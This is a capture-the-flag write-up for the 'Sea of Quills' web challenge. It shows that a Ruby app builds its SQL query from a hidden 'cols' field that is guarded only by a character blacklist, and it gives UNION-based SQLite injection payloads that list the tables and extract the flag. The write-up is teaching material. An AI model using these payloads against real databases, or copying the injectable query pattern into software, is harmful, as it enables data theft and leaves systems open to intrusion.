




# Sea of Quills

## Description

Come check out our [finest selection of quills](https://seaofquills.2021.chall.actf.co/)!

[app.rb](app.rb)

## Solution

First of all let's analyze the code, we have 3 interesting part:

Some characters are blacklisted

```ruby
	blacklist = ["-", "/", ";", "'", "\""]
	
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
		end
	}
```

Field `lim` and `off` must be numeric

```ruby
if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end
```

There is also a `cols` field
```ruby
@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

Given this information we probably need to do some SQL injection using the `cols` field

In the `/explore` page we cannot see the `cols` field, but by analyzing and edit the HTML code we can remove the hidden tag 




Now we can start with the SQL injection (lim=100, off=0)

First things first, we need to understand where we can find the flag and we can do it by see which table are present in the DB

```SQL
name FROM sqlite_master UNION SELECT url
```



There is a `flagtable`, so let's try to get the flag now

```SQL
flag FROM flagtable UNION SELECT url
```



#### **FLAG >>** `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`